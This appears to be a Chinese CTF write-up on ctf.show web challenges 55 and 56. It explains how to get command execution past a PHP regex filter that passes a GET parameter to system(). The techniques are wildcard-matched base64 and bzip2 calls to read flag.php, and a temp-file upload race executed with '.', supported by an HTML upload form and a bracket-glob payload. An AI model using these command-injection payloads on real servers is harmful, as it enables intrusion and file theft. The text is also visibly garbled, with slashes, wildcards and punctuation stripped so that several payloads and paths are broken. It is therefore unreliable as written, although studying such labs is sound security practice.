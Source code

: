 那么这里肯定是要无字符 rce 。

但是这里没有过滤通配符，所以可以找到一个带有数字的命令，利用通配符执行命令。

base64的使用
有个命令是binbase64，我们可以据此构造

c=64 
得到

PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMg QERhdGU6ICAgMjAyMC0wOS0wNyAxOTo0MDo1Mw0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhh DQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMDcgMTk6NDE6MDANCiMgQGVtYWlsOiBo MXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxh Zz0iZmxhZ3tlYTY0MTJlZi03NGY3LTQ1ZjItYWJiYS05M2Y2ODZkOTkwZDh9Ijs= 
解码即得到flag.

bzip2

bzip2 是 linux 下面的压缩文件的命令。在usrbinbzip2

构造

C=2 
然后访问flag.php.bz2下载即可获得 flag.php

临时文件上传

httpswww.gem-love.comwebsecurity1407.html

httpsblog.csdn.netqq_46091464articledetails108557067

web56~临时文件
php

 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match(;[a-z][0-9]$({'`%x09x26i, $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
多过滤数字，所以用不了上题的前两种方法。这里只能详细写一下上题的第三种方法了。

我们可以通过post一个文件(文件里面的sh命令)，在上传的过程中，通过.(点)去执行执行这个文件。(形成了条件竞争)。一般来说这个文件在linux下面保存在tmpphp一般后面的6个字符是随机生成的有大小写。（可以通过linux的匹配符去匹配）注意：通过.去执行sh命令不需要有执行权限

我们需要构造一个post上传文件的数据包。

!DOCTYPE html
html lang=en
head
    meta charset=UTF-8
    meta name=viewport content=width=device-width, initial-scale=1.0
    titlePOST数据包POCtitle
head
body
form action=http46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show method=post enctype=multipartform-data
!--链接是当前打开的题目链接--
    label for=file文件名：label
    input type=file name=file id=filebr
    input type=submit name=submit value=提交
form
body
html
抓包，构造c=.+[@-[]
